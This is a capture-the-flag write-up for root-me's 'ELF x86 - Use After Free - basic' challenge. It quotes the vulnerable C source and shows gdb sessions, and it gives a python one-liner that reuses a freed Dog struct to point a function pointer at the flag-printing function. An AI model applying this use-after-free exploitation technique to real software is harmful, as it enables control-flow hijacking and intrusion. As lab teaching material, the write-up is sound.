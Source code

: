 # ELF x86 - Use After Free - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Use-After-Free-basic
```
Environment configuration :
PIE 	Position Independent Executable 		 No
RelRO 	Read Only relocations 	             Yes
NX 	Non-Executable Stack 	                 Yes
Heap exec 	Non-Executable Heap 	           Yes
ASLR 	Address Space Layout Randomization 	 Yes  
SRC 	Source code access 	                  Yes

Challenge connection informations :

Host	        challenge03.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch63@challenge03.root-me.org    
Username	app-systeme-ch63
Password	app-systeme-ch63
```

The challenge provides a source code, and the title pretty much implies the vulnerability. Let's find it.
```c
struct Dog {
    char name[12];
    void (*bark)();						// <---- a function which does nothing
    void (*bringBackTheFlag)();			// <---- a function which prints the flag
    void (*death)(struct Dog*);			// <---- a function which frees the dog struct
};
struct DogHouse{
    char address[16];
    char name[8];
};

int main(){
	struct Dog* dog = NULL;
    struct DogHouse* dogHouse = NULL;
    [...snip...]
		case '4':
		if(!dog){
				puts("You do not have a dog.");
				break;
		}
		dog->death(dog);					// <---- frees the Dog struct and still keeps the pointer
		break;
	[...snip...]
}
```
As the above code (and comments) describes, there is a UAF vulnerability in this program. It's possible to allocate a Dog struct, and then free it. Afterward, it's possible to allocate a DogHouse in the same memory location of the free'd Dog struct, which will overwrite the Dog's functions.

First let's verify the vulnerability.

So, the plan is:<br>
	1. Buy a dog (allocate a Dog struct).
	2. Kill the dog (free the Dog struct).
	3. Buy a dog house (allocate a DogHouse sturct) which will overwrite a function pointer of the killed dog.
	4. The dog's spirit is still with us, so call its overwrite function (the is no changing of the Dog struct pointer, so it's possible).
	5. Get the flag.
(Note: I love animals and against animal cruelty).

Let's verify the vulnerability and see what's up:
```gdb
(gdb) run
Starting program: /challenge/app-systeme/ch63/ch63
warning: the debug information found in "/lib/old32/libc-2.19.so" does not match "/lib/old32/libc.so.6" (CRC mismatch).

1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
1
How do you name him?
Albert
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
4
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
5
Where do you build it?
AAAABBBBCCCCDDDD
How do you name it?
EEEEFFFF
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
2

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
The following diagram will describe what happend:
```
    1. Allocating a Dog sturct
      +---------------------+--------+--------------------+-------+
      |         Albert      | bark() | bringBackTheFlag() | death |   (24 bytes)
      +---------------------+--------+----------------------------+

    2. Freeing the Dog struct - no change.
    3. Allocating a DogHouse struct in the same memory address (same size).
      +---------------------+--------+--------------------+-------+
      |     AAAABBBBCCCC    |  DDDD  |        EEEE        | FFFF  |   (24 bytes)
      +---------------------+--------+----------------------------+
    4. Running bark() results in segmantation fault.
```
At this point we've got a code execution. Now it's time to leaverage it.<br>
The ASLR is on, but the PIE is off, which means that the _text segment is not
randomized. In addition, according to the source code, the challenge made it
easy for us and added a function which prints the flag - so we won't have to build
a ROP and cat the file.

According to gdb, the function is at 0x80487cb:
```gdb
(gdb) print bringBackTheFlag
$1 = {<text variable, no debug info>} 0x80487cb <bringBackTheFlag>
```

So after writing a quick python script (uploaded to this repo), we've got the
following output:
```sh
$ python -c "print '1\n' + 'albert\n' + '4\n' + '5\n' + 'AAAABBBBCCCC\xcb\x87\x04\x08\n' + 'EEEEFFFF\n' + '2\n'" | ./ch63
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
How do you name him?
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Where do you build it?
How do you name it?
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
<censored>
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
```
